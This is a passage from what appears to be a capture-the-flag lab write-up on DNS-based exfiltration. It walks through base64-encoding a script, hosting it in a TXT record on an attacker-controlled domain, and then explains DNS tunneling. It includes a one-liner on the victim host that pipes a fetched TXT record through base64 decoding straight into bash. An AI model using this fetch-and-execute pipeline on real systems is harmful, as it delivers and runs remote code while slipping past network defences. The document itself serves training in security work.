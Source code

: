 1. First, we need to **encode the script**:

    ```shell
    # encoding the content of script.sh
    thm@victim2$ cat /tmp/script.sh | base64
    # IyEvYmluL2Jhc2gKcGluZyAtYyAxIHRlc3QudGhtLmNvbQo=
    ```

2. Next, we can add it as a **TXT DNS record** to our domain, `tunnel.com`, by visiting `http://ATTACKER_IP`. 

    ![Adding TXT DNS record](dns-txt-subdomain.png)

    Once we have added it, we can confirm that the TXT DNS record was created by resolving the TXT record of `script.tunnel.com`:

    ```shell
    thm@victim2$ dig +short -t TXT script.tunnel.com
    # "IyEvYmluL2Jhc2gKcGluZyAtYyAxIHRlc3QudGhtLmNvbQo="
    ```

3. Now, we can execute it as follows:

    ```shell
    thm@victim2$ dig +short -t TXT script.tunnel.com | tr -d "\"" | base64 -d | bash
    ```
    As we know by now, the above command:
    1. Makes a DNS lookup for a TXT record for the domain `script.tunnel.com`.
    2. Removes double quotes, `"`, from the output.
    3. Decodes the base64 encoded text.
    4. Execute the decoded output.

To execute the content of `flag.tunnel.com` TXT record all we need to do is replacing `script.tunnel.com` with `flag.tunnel.com` in the above command:

![DNS Flag 2](dns-flag2.jpg)

### 7.4 DNS Tunneling

DNS tunneling, aka *TCP over DNS*, is a technique used to bypass network security measures by encapsulating non-DNS traffic within DNS packets. It works like this:
1. **Encapsulation**: In DNS tunneling, non-DNS data or commands are hidden within DNS queries or responses. This can include binary data, text, or even executable code.
2. **Subdomain Creation**: The attacker creates subdomains under a malicious domain name they control (`tunnel.com`). Each subdomain represents a piece of the hidden data or a command.
3. **DNS Queries**: The attacker's malware generates DNS queries to these subdomains, effectively trasmitting the encapsulated data.
4. **DNS Server**: A malicious authoritative DNS server under the attacker's control receives these DNS queries.
5. **Data Extraction**: The malicious DNS server extracts the hidden data or executes the received commands. The response, if any, is then sent back to the attacker's malware.
